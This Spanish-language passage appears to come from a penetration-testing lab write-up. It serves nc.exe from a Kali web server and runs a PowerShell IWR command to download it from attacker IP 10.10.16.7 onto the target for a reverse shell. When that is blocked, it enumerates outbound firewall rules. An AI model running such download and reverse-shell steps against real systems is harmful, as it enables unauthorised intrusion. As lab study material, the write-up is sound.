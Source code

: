 Probaremos de compartirnos el binario de "nc.exe" para posteriormente entablarnos una Reverse Shell hacía el equipo.

```bash
ls

python3 -m http.server 80
```

<figure><img src="../../../../../.gitbook/assets/3106_vmware_AbiEGthayi.png" alt=""><figcaption></figcaption></figure>

Modificaremos el proyecto para que ejecute el siguiente comando, para descargarnos el binario de **nc.exe** que estamos compartiendo desde nuestro servidor web de Kali.

Verificamos que en el output de la salida de la ejecución del comando, nos devuelve error de conexión "_Unable to connect to the remote server_", lo cual nos hace pensar que hay algunas reglas de Firewall que nos están bloqueando la salida cualquier tráfico en el equipo.

```powershell
cmd /c "PowerShell -c IWR -Uri http://10.10.16.7/nc.exe -Outfile C:\ProgramData\nc.exe"
```

<figure><img src="../../../../../.gitbook/assets/3109_vmware_5TWfpIrlDT.png" alt="" width="563"><figcaption></figcaption></figure>

### Firewall Enumeration Techniques

A través del siguiente comando, listamos las reglas del firewall que bloquean el tráfico saliente y que están habilitadas. Esto nos permite identificar las restricciones que están configuradas para el tráfico hacia el exterior, ayudándonos a comprender mejor cómo se gestionan las conexiones salientes en el sistema.

Verificamos que el resultado obtenido en el output nos indica que existe una regla de Firewall llamada "BlockOutboundDC" que no permite la salida de tráfico hacia el exterior, por ese motivo nos rechazaba la conexión anteriormente.

```powershell
powershell -c Get-NetFirewallRule -Direction Outbound -Enabled True -Action Block
```

<figure><img src="../../../../../.gitbook/assets/3111_vmware_ZcIpBDA0lm.png" alt="" width="563"><figcaption></figcaption></figure>

El siguiente comando que ejecutamos está diseñado para listar las reglas del firewall que bloquean el tráfico saliente, mostrando detalles adicionales como el protocolo, puertos locales y remotos, direcciones remotas y otros atributos. Si en los campos como **LocalPort**, **RemotePort** o **RemoteAddress** aparece "Any", esto indica que la regla no está restringida a un puerto o dirección específica, sino que aplica a todo el tráfico saliente que cumpla con las condiciones básicas de la regla (en este caso, dirección **Outbound** y acción **Block**).

Esto significa que esas reglas están configuradas para bloquear cualquier tráfico saliente sin discriminar por puerto o dirección, lo que puede implicar restricciones muy amplias en el sistema.

{% code overflow="wrap" %}
```powershell
powershell -c "Get-NetFirewallRule -Direction Outbound -Action Block -Enabled True | Format-Table -Property Name,DisplayName,DisplayGroup,@{Name='Protocol';Expression={($PSItem | Get-NetFirewallPortFilter).Protocol}},@{Name='LocalPort';Expression={($PSItem | Get-NetFirewallPortFilter).LocalPort}},@{Name='RemotePort';Expression={($PSItem | Get-NetFirewallPortFilter).RemotePort}},@{Name='RemoteAddress';Expression={($PSItem | Get-NetFirewallAddressFilter).RemoteAddress}},Enabled,Profile,Direction,Action"
```
{% endcode %}
